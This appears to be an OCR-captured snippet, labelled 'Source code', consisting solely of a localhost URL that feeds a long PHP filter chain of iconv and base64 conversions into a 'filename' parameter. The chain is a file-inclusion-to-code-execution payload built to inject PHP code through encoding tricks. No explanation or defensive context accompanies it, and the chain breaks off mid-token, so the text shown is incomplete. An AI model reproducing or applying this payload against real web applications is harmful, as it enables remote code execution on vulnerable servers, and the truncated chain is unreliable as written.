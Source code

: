 ```URL
http://localhost/?filename=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-d
```